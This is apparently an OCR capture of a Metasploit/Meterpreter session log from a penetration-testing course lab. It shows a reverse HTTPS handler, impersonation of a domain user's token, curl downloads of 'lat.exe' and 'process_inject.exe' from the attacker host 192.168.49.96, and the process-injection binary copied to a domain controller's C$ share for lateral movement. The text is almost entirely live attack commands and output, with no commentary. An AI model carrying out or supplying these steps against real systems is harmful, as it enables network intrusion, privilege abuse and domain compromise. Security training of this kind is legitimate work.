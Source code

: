 c:\>exit
exit
meterpreter > bg
[*] Backgrounding session 4...
msf6 exploit(multi/handler) > explot -j
[-] Unknown command: explot
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.49.96:443
msf6 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...

meterpreter > impersonate_token EVIL\\paul
[+] Delegation token available
[+] Successfully impersonated user EVIL\paul
meterpreter > upload lat.exe c:\\lat.exe
[*] uploading  : /home/osep/Modules/module17/lat.exe -> c:\lat.exe
[-] core_channel_open: Operation failed: Access is denied.
meterpreter > shell
Process 4804 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
evil\paul

C:\Windows\system32>cd c:\                         

cd c:\

c:\>
c:\>curl 192.168.49.96:8080/lat.exe > lat.exe
curl 192.168.49.96:8080/lat.exe > lat.exe
Access is denied.

c:\>cd users
cd users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D2E3-655A

c:\Users\Public\Downloads>curl 192.168.49.96:8080/process_inject.exe > process_inject.exe
curl 192.168.49.96:8080/process_inject.exe > process_inject.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6144  100  6144    0     0   6144      0  0:00:01 --:--:--  0:00:01 43574

c:\Users\Public\Downloads>copy process_inject.exe \\dc02\c$
copy process_inject.exe \\dc02\c$
        1 file(s) copied.
